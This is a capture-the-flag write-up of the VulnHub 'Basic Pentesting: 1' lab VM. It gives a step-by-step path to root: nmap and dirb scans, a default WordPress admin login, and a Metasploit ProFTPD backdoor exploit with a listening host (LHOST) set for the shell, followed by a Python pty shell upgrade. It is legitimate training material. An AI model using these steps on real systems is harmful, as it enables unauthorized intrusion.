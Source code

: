 # Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Release date: 8 Dec 2017\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Series: [Basic Pentesting](https://www.vulnhub.com/series/basic-pentesting,143/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to ennumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to ennumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like user names, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP adress of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```

![bpen_nmap.jpg](/images/bpen_nmap.jpg)
(/images/bpen_nmap.jpg)\

The scan shows that there are three ports: 21,22 and 80. Usually bu default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.

(/images/landing_page.jpg)\

When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```

(/images/dirb_find.jpg)\

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress the default name and password is "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possiblity to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

(/images/admin_panel.jpg)\

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

(/images/searchsploit_ftp.jpg)\

As shown on the image the search resulted in finding a succesful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

(/images/msfconsole.jpg)\

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we wanna listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

(/images/msfconsole_exploit.jpg)\

As you can see command shell is opened, although there's one small problem, theres no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we goot root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

(/images/pythonroot.jpg)\


### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!



